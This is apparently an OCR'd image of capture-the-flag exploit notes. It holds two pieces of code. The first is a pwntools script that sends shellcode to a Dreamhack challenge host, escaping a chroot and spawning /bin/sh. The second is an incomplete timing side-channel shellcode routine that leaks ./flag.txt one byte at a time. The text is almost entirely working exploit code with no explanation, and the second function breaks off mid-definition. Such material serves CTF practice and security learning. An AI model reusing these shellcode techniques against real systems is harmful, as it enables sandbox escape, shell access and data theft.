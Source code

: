 ```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./cube',checksec=False)

#p = process()
p = remote('host3.dreamhack.games', 19615)



shellcode = shellcraft.chdir("../../../..")
shellcode += shellcraft.chroot(".")
shellcode += shellcraft.execve("/bin/sh", 0, 0)
shellcode = asm(shellcode)
p.sendafter(b'shellcode: ',shellcode)

p.interactive()
```

## tryhackme (only open + read)




```
def exploit():
    charset = string.printable
    flag = ""

    while len(flag) != 50:
        for char in charset:
            print(flag + char)

            sc = asm(
                f"""
                open:
                    mov rax, 0x2
                    lea rdi, [rip+filename]
                    xor rsi, rsi
                    syscall

                read:
                    mov rdi, rax
                    lea rsi, [rsp+0x100]
                    mov rdx, 0x50
                    xor rax, rax
                    syscall

                add rsi, {len(flag)}

                side_channel:
                    cmp BYTE PTR [rsi], {ord(char)}
                    je side_channel

                exit:
                    mov rdi, 0x1337
                    mov rax, 0x3c
                    syscall

                filename:
                    .ascii "./flag.txt"
                    .byte 0x0
                """
```